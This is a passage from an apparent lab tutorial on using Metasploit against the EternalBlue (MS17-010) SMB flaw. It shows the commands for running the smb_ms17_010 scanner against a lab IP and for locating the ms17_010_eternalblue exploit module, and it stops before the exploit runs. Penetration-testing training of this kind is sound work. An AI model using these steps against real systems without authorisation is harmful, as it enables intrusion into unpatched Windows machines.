 Metasploit will load, displaying the number of exploits, auxiliary modules, and payloads available.

![Msfconsole](https://cdn.hashnode.com/res/hashnode/image/upload/v1737563650243/bf779d7c-a272-4dc7-aeba-65b812af2268.webp)

---

## Scan for the EternalBlue (MS17–010) Vulnerability

Next, use Metasploit’s built-in scanner for EternalBlue:

```sh
search scanner eternalblue
```

![Scanner search results](https://cdn.hashnode.com/res/hashnode/image/upload/v1737563706786/62f94087-b078-46d9-a0fd-66f00f05336e.webp)

Use the `smb_ms17_010` scanner to check for the EternalBlue vulnerability.

```sh
use auxiliary/scanner/smb/smb_ms17_010
show options
```

Set the target’s IP address (RHOSTS) to your Windows machine:

```sh
set RHOSTS 10.10.217.189
```

Then, run the scanner:

```sh
run
```

If the scanner reports that the host is “likely vulnerable” and shows details such as Windows 7 Professional, you’ve confirmed the EternalBlue vulnerability.

![`ms17_010` scan results](https://cdn.hashnode.com/res/hashnode/image/upload/v1737563744272/f3204f5f-11aa-4778-aa7e-b4a6b9d90912.webp)

---

## Exploit the Vulnerability

Once you know the target is vulnerable, search for the actual EternalBlue exploit module:

```sh
search exploit eternalblue
```

![Exploit search results](https://cdn.hashnode.com/res/hashnode/image/upload/v1737563783135/0a4c7c5b-5f2b-4d4f-bb2a-c3af8b49f29e.webp)

You should see a list of possible exploits. The one we’re interested in is typically labelled something like:

```plaintext
exploit/windows/smb/ms17_010_eternalblue
```
